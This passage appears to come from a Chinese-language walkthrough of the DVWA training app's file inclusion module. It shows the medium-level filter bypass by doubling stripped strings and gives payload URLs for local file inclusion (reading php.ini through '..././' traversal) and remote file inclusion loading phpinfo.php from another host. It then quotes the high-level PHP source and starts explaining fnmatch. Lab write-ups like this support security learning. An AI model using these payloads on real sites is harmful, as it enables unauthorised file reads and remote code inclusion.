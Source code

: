 
通过查看代码我们可以看到是将“http://”、“https://”、“../”、“..\”转化为空。所以我们可以使用双写的方式来绕过。


## 本地文件包含

读取php.ini文件
```
http://www.xmtxsec.top/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././phpstudy_pro/WWW/DVWA/php.ini
```

![image-20220519095557802.png](_img/assets/1652927729074-2e7d84f5-7997-415f-b52d-754b7c9a913d.png)


## 远程文件包含

构造payload：
```
http://www.xmtxsec.top/dvwa/vulnerabilities/fi/?page=htthttp://p://192.168.10.2/phpinfo.php
```

![image-20220519095703447.png](_img/assets/1652927737995-59308b7c-0fc4-4505-b9d3-a73b07f408c6.png)

成功读取phpinfo文件。


## 3、High

## 分析

**查看源码**

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

**函数说明：**

```
fnmatch（）
定义和用法
fnmatch（）函数根据指定的模式来匹配文件名或字符串。

语法
fnmatch(pattern,string,flags)
pattern:必需。规定要检索的模式。
string:必需。规定要检查的字符串或文件。
flags:可选。

例：
<?php
$txt = "My car is darkgrey..."
if (fnmatch("*gr[ae]y",$txt))
{
```